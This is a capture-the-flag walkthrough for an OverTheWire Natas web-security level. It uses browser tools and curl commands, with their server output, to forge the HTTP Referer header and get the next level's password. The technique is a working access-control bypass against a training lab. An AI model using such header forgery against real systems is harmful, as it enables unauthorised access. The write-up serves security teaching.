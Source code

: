 # OverTheWire - Natas - Level 5

[OverTheWire](https://overthewire.org) offers a series of "wargames" that teach
security skills. From their website:

> Natas teaches the basics of serverside web-security.

## Challenge Overview

After discovering the `natas4` password in the previous challenge, it can be
used to log into http://natas4.natas.labs.overthewire.org:

![The main page](images/level_05/00_main_page.png)

## Initial Analysis

The web page instructions are:

> Access disallowed. You are visiting from "" while authorized users should come
> only from "http://natas5.natas.labs.overthewire.org/"

It appears that the web server is checking one of the HTTP headers for a
specific value. This does not really provide any security as the user is able to
change these headers. Try to figure out what header is being used.

## Approach Strategy

1. Use "Developer Tools" to look at the network traffic
1. Add HTTP headers to the requests to satisfy the web server check

## Step-by-Step Solution

Browsers have "Developer Tools" that can be used to troubleshoot problems that
happen on web sites. These tools can also be used to exploit security
vulnerabilities. These tools are also called the "F12 Tools" as the `F12` key is
used to run them:

![Developer Tools](images/level_05/01_developer_tools.png)

Clicking the "Refresh page" link on the web page will re-send the network
requests for the page:

![Network Requests](images/level_05/02_network_requests.png)

Two things happened here.

The first thing is that the description box on the page now has a new message:

> Access disallowed. You are visiting from
> "http://natas4.natas.labs.overthewire.org/index.php" while authorized users
> should come only from "http://natas5.natas.labs.overthewire.org/"

This is _very_ important and needs some explanation.

When a browser makes an HTTP request it sends a collection of headers. Each
header has a name and a value. In this instance, the header of interest is
called `Referer`. This header tells the web server which web page the request is
coming from.

When this challenge page was first loaded, it said _You are visiting from ""_.
That's because there was no referrer page. However, when clicking the "Refresh
page" link, the browser sends the current page URL as the referrer. The solution
to the challenge is probably to fake the `Referer` header to be from the site
"http://natas5.natas.labs.overthewire.org/".

The second thing that happened is that the `Network` tab in the Developer Tools
now lists the HTTP requests that were made. The first (highlighted) request is
for the `index.php` page itself. The other requests are for dependencies of the
web page. One type of dependency is Cascading Style Sheet (`.css`) files
defining page style such as fonts, colours, and layout. Another type of
dependency is JavaScript (`.js`) files that execute code in the browser to make
the web page interactive.

Clicking the highlighted request line for `index.php` displays its details, and
scrolling down into the `Request Headers` section shows the `Referer` header
(highlighted):

![Index Request](images/level_05/03_index_request.png)

The next step is to alter the header. Right clicking the a request from the list
brings up the context menu and there is a `Edit and Resend` menu item:

![Context Menu](images/level_05/04_context_menu.png)

This brings up an area that has the request and all its headers. The request can
be re-sent many times to see how the server responds:

![Edit and Resend](images/level_05/05_edit_and_resend.png)

Rats! For some reason Firefox does not allow the `Referer` to be changed. There
are still many ways to make the request, though.

The `curl` command is used to make HTTP requests. Compared to using a browser it
definitely has a learning curve, but it's an important tool to know. Starting
over using `curl` instead of the browser, the first task is to fetch to main
webpage:

```
$ curl http://natas4.natas.labs.overthewire.org/index.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.58 (Ubuntu) Server at natas4.natas.labs.overthewire.org Port 80</address>
</body></html>
```

The response is the HTML for a page that says that credentials need to be
supplied. The `-u` switch for `curl` can do this:

```
$ curl -u natas4:[REMOVED: NATAS4 PASSWORD] \
    http://natas4.natas.labs.overthewire.org/index.php
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "[REMOVED: NATAS4 PASSWORD]" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

Progress! The `natas4` password has of course been removed from the text above.
It still has the message that the visit is coming from `""`. Now to use the `-H`
flag to set the `Referer` header. This will double-check that the web server is
indeed looking for this header:

```
$ curl -u natas4:[REMOVED: NATAS4 PASSWORD] \
    -H 'Referer: foo' \
    http://natas4.natas.labs.overthewire.org/index.php
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "[REMOVED: NATAS4 PASSWORD]" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "foo" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

And now for the final request:

```
$ curl -u natas4:[REMOVED: NATAS4 PASSWORD] http://natas4.natas.labs.overthewire.org/index.php -H "Referer: http://natas5.natas.labs.overthewire.org/"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "[REMOVED: NATAS4 PASSWORD]" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is [REMOVED: NATAS5 PASSWORD]
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

There it is: `Access granted` and the `natas5` password (removed).

## Key Takeaways

- HTTP requests contain headers that can be manipulated
- Browsers can resend requests but apparently some headers are off limits
- The `curl` command is a valuable tool, particularly if a group of requests
  need to be scripted
- Web servers should always be suspicious about any headers or data being sent
  by the user

## Beyond the Challenge

It's always a good idea to think about other solutions. While there are numerous
other tools that could be used to solve this challenge, `curl` is fairly common
and good to learn.
